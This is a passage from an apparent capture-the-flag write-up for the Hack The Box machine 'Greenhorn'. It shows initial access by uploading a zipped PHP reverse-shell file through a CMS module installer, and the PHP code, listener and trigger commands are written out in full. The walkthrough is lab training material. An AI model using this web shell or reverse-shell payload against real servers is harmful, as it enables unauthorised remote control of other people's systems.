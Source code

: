 Let's head over to `options > manage modules > install a module` and upload our malicious zip file

Since we have access to the GUI interface directly. We don't really need that script from earlier. Let's just create our own malicious reverse shell php, zip it, and upload it

First, let's create the PHP script

```php
<?php
system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'");
?>
```

This tiny php script opens a socket connection from the target server to our machine / port. It then runs a shell on the target server and redirects the input, output, and error to the socket connection (us)

Now let's zip the file

```bash
zip pwned.zip pwned.php
```

Start the NC listener

```bash
nc -lvnp <port>
```

Upload the zipped php file to `options > manage modules > install a module`

Now curl the request

```bash
curl -I http://greenhorn.htb/data/modules/pwned_folder/pwned_file.php
```

We have shell access

![Shell Access](/assets/images/HTB%20-%20Greenhorn/Initial%20Access.png)

We unfortunately can't read the contents of `user.txt` as the file resides in the `junior` folder. We must escalate

## Privilege Escalation

![Escalation to Junior](/assets/images/HTB%20-%20Greenhorn/Escalation%201.png)
